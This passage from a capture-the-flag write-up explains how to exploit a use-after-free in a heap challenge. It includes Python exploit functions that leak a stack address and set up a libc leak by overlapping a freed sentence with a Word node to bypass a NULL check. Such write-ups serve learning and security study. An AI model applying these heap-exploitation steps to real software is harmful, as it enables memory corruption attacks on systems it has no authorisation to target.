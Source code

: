 ``` python
def leak_stack():
    # p.sendline('A'*48)
    # p.recvuntil('Quit\n')
    # p.recvline()

    # doesn't work all the time
    p.sendline('A'*48)
    leak = p.recvline().split(' ')[0][48:]
    return int(leak[::-1].encode('hex'), 16)
```

We'll use this function in our final exploit.

## Getting a libc leak

This part of the exploit took me some time to come up with. The main observation we can make is that if we can exploit the UAF to allocate a sentence on top of a Word node, we can then control the `sentence` pointer. We can then search for words in that sentence, and when we get a match, the sentence will be printed, and since we control that pointer we can read arbitrary memory.

Another important observation is that when a sentence is zeroed out, the words of that sentence are also zeroed out because words are simply pointers into the original sentence. However, if we can bypass the sentence NULL check (using the UAF), then we can still match on words by matching on the empty string!

Using that information, we come up with the following plan:

1. Allocate a sentence that has the same length as a `Word` node (40 bytes).
2. Delete the sentence.
3. Index a new sentence that is more than 16 bytes greater than the original sentence (so that it doesn't reuse the chunk we just freed). When we create this sentence, a new `Word` node is allocated where our original sentence is.
4. The `sentence` we originally freed is no longer NULL, because there's a `Word` on top of it! That means the NULL check is bypassed. We can then search for an empty string to match a word in the sentence (as long as that word is still NULL and was not overwritten).
5. We now have a 40 byte free chunk in a fastbin, but that same chunk is still being used as a `Word` node. Thus, we can allocate a new 40 byte sentence and put a fake node in this sentence, thus setting the `sentence` pointer to whatever we want (we'll leak a GOT address).
6. When we search for that `Word` node, when we get a match the `sentence` will be printed, which will leak memory.

This is implemented in the following function, which is commented with some of the details.
``` python
def leak_libc():
    # this sentence is the same size as a list node
    index_sentence(('a'*12 + ' b ').ljust(40, 'c'))

    # delete the sentence
    search('a' * 12)
    p.sendline('y')

    # the node for this sentence gets put in the previous sentence's spot.
    # note we made sure this doesn't reuse the chunk that was just freed by
    # making it 64 bytes
    index_sentence('d' * 64)

    # free the first sentence again so we can allocate something on top of it.
    # this will work because 1) the sentence no longer starts with a null byte
    # (in fact, it should be clear that it starts a pointer to 64 d's), and 2)
    # the location where our original string contained `b` is guaranteed to be
    # zero. this is because after the original sentence was zeroed out, nothing
    # was allocated at offset 12, which is just padding in the structure. if
    # we had made the first word in the string 16 bytes instead of 12, then that
    # would put 'b' at a location where it would not be guaranteed to be zero.
    search('\x00')
```